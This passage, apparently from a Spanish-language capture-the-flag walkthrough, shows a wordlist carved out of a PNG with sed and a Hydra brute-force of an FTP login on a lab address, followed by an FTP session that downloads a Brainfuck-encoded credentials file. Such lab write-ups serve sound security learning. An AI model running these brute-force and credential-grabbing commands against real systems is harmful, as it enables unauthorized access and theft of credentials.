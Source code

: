 ```java
# sed -n '1792, $p' Hot_Babe.png > wordlists.txt
# hydra -l ftpuser -P wordlists.txt 10.10.37.210 ftp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-18 23:23:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.37.210:21/
[21][ftp] host: 10.10.37.210   login: ftpuser   password: ###########
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-18 23:23:18
```

* Nos conectamos por fpt y descargamos el archivo encontrado.

```java
# ftp ftpuser@10.10.37.210
Connected to 10.10.37.210.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||21640|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
229 Entering Extended Passive Mode (|||32835|).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |*****************************************************************************************************************************|   758       10.62 MiB/s    00:00 ETA
226 Transfer complete.
758 bytes received in 00:00 (1.88 KiB/s)
ftp> exit
221 Goodbye
```
* Vemos el archivo descargado cifrado en Brainfuck.

<img src="imgs/Rabbit/Rabbit7.png">
